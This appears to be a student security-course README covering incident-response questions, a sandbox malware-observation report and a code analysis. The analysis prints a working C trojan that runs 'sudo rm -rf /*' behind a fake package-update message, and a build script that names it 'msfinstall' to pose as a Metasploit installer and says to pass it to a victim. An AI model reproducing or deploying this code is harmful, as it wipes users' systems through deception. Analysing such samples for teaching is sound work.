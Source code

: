 # Assignment-1

  1.What type of security breaches you may encounter as an incident responder?

	a, Data breaches.
	b, Source code leaks.
	c, Denial of service attacks.

   2.To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, If the email happens to be a spam.
	b, If the email is from a known source.
	c, If the email appears to be a click-bait to a link.

Assignment-2


   1.Idenify new created processes,service. 

   	a, System programs such as antiviruses.
	b, Third party programs currently running.
	c, Service progrmas running the background.


# Assignment-2
## Malware Analysis

 The assignment was to run malicious software on a windows sandbox and observe behaviours of the program.
 We used virtual box and run windows 7 on a VB instance.
 After running the program a few times we only managed to observe a few things.
 
 While  running the malware the program tried to perform a tcp connection to an external host, but was quickly stopped by the defender program.

<img src="shot1.png">
<img src="shot2.png">

>While running the malware samples on a windows 10 VM we were able to find more details.

<img src="screen (1).jpg">

## Icon

Most of malicious programs such as Javascript files and VB scripts had their default icons present while some executables had the icon of a folder
This is probably to deceive the victim into clicking it.

## Registry

We were able to find the registry to some of the malwares using the sysinternal tools

<img src="screen (5).jpg">

## Activities

We observed that some of the malware samples managed to navigate to the adminstrator directory of the system.

<img src="screen (3).jpg">

## Eradicating the malwares

To eradicate the malwares from the system we only had to delete the processes from sysinternals

# Assignment-3
## Code analysis

The source code that was analized was a C program that performed a given task.
```C
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."

int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```

The above C code is a script that will automatically destroy any linux/unix based system.

    1. The program starts by insuring that the current system is a linux/unix based one.
    2. If the system turns out to be a non linux/unix one it will display an error.
    3. Once the system is assured to be linux/unix then it will remove the root folder of the os which will lead to a complete distruction of the system.

The C program is compiled using the build.sh file.

```bash
#!/bin/sh
gcc main.c -o msfinstall
mv msfinstall ..
cd .. && rm -rf fake-msfinstall/
echo "Now pass 'msfinstall' to the victim."
exit
```